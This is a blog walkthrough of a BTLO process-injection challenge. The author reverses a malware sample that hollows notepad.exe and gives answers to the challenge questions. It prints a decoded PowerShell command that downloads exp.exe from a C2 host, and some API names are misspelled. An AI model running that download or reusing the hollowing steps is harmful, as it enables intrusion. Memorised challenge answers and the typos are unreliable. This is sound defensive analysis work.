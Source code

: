 ```yaml
--- 
layout: post
title: Injection Series Part 4
date: 2024-01-29 00:00 +0700
categories: [BTLO, Reverse Engineering]
tags: [Process Injection, Malware Analysis, Blue Team, btlo, Reverse, IDA, Ghidra]     # TAG names should always be lowercase
img_path: '/assets/BTLO/Injection_Series_Part_4'
image: 
  path: logo.png
--- 
```


Hi everyone ~

Don't forget the warning 

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/71ee1b3e-b74a-4e9a-810b-e522141ab873)

### Question 1) What is the process that would be first spawned by the sample? And what is the API used? (Format: Format: process, APICall) (1 points)

The tags of the topic are also mentioned, this time I still use `IDA` 

The question tells us to find the process that was first created with the malicious file and which API was used.

OK, go to `IDA` via the `Strings` tab and you will see it immediately

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/c40ba8b1-42b6-407c-aeae-b72ae056bba8)

yah, now go to the `IDA View-A` tab to see which `APIcall` it used

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/6c97a53e-d858-46e8-ba05-74c0d3c39717)

`notepad.exe, CreateProcessA`

### Question 2) The value 4 has been pushed as a parameter to this API, what does that denote? (Format: FLAG) (1 points)

I still don't quite understand what it will do @~@, go to GG and look it up

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/1fb95d33-07cd-41a4-8b2e-4fe11ac27729)

And these parameters are of `API(CreateProcessA)` hmmm...

After a while of consulting, I found this [CreateProcessA function](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa)

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/39153476-1e63-41ac-8cbe-2d34b869c8d3)

Please read it, it's very useful

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/cf54151e-bc7b-416e-9d34-6d682367cdb7)

With `a value of 4 (0x00000004)`, tt is used to load the process in suspended mode and will not run until the `ResumaThread` function is opened

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/87ee8f78-d603-499c-b063-99ed44817979)

`Create_Suspended` 

### Question 3) What is the domain that the malware tries to connect? (Format: domain.tld) (1 points)

You remember from the previous article there was no `Powershell` command, let's decode them and we will have the answer

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/616fa907-4864-4b58-88ff-bf631c576692)

```
SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgAGgAdAB0AHAAOgAvAC8AcwBvAG0AZQBjADIALgBzAGUAcgB2AGUAcgAvAGUAeABwAC4AZQB4AGUAIAAtAE8AdQB0AEYAaQBsAGUAIABjADoAXABcAHcAaQBuAGQAbwB3AHMAXABcAHQAZQBtAHAAXABcAGUAeABwAC4AZQB4AGUACgA=

```

go to [CyberChef](https://gchq.github.io/CyberChef/) and decode them

this is the result after removing the null byte

`Invoke-WebRequest -Uri http://somec2.server/exp.exe -OutFile c:\\windows\\temp\\exp.exe`

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/c03e5212-0ea8-4c77-9a8d-4bb6fcfe94e6)

`somec2.server`

### Question 4) What is the cmdlet used to download the file and what is the path of the file stored? (Format: CMDLET, path) (1 points)

in the sentence above :>

`Invoke-Webrequest, c:\windows\temp\exp.exe` 

### Question 5) Just after the file download instructions, a function from ntdll has been loaded and invoked by the sample. What is the function name? (Format: Function) (2 points)

Finding it seems easy XD

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/0ddd7ff1-c271-41f2-a3ac-06c07bc29d50)

`NtUnmapViewOfSection`

### Question 6) After the allocation of memory and writing the date into the allocated memory. What are the 2 APIs used to update the entry point and resume the thread? (Format: API, API) (2 points)

It took me a while to realize the suggestion above in the topic `resume the thread` 
> let's focus on searching for APIs -> `thread`

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/8c341b27-0e45-42ad-8f95-2fe30e1e682e)

`SetThreadTontext, ResumeThread`

### Question 7) What is the MITRE ID for this technique implemented in this sample? (Format: TXXXX.XXX) (2 points)

I tried with 2 APIs I just found :)))
>it's wrongggggggg

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/cf37785d-162b-41f9-a076-070751e6113d)

Honestly, my goal is to try them all

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/7bf04c6a-5a0f-4245-9fff-b3704bd38a48)

But it was right to come here lol

![image](https://github.com/zs0b/zs0b.github.io/assets/118095276/28058b7e-d958-43e1-be03-676487cdeb65)

`T1055.002`

goodbye, thank you for reading until now //~//




